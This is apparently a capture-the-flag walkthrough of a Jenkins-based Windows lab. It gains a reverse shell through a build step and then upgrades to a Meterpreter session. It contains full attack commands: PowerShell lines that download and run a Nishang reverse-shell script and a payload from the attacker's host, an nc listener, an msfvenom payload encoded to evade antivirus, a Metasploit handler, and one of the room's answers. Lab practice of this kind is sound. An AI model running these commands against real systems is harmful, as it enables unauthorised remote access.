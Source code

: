 3. Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server
4. What is the user.txt flag? => ***************************
	1. Download the nishang script from the Github link => https://github.com/samratashok/nishang.git
	2. In your local machine run a python server in the Shell directory under nishang => python3 -m http.server 
	3. Run a local net-cat using nc -lvnp 9001
	4. Now on the Jenkins navigate to http://$Machine_IP_Address:8080/job/project/configure => "Build"
	5. Now enter this command: powershell iex (New-Object Net.WebClient).DownloadString('http://$IP_Address:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $Your_IP_Address -Port 9001 and click on apply
	6. Now go to Main Dashboard and click on "Build now" button notice that the nishang script is called and you get a shell via nc
	7. Navigate to C:\Users\bruce\Desktop and type users.txt and you get the user flag.

```
Task 2: Switching Shells
```
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

1. Use msfvenom to create the a windows meterpreter reverse shell using the following payload
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[Your_IP_Address] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```
This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

2. After creating this payload, download it to the machine using the same method in the previous step (use the current nc shell to download the paylaod):
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$Your_IP_Address:8000//venom.exe','venom.exe')"
```
3. Before running this program, ensure the handler is set up in metasploit:
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST $Your_IP_Address set LPORT 9002 run
```
4. ﻿This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell (Run from NC shell)
```
Start-Process "shell-name.exe"
```
5. What is the final size of the exe payload that you generated? => 73802

```
Task 3:  Privilege Escalation
```
Now that we have initial access, let's use token impersonation to gain system access.
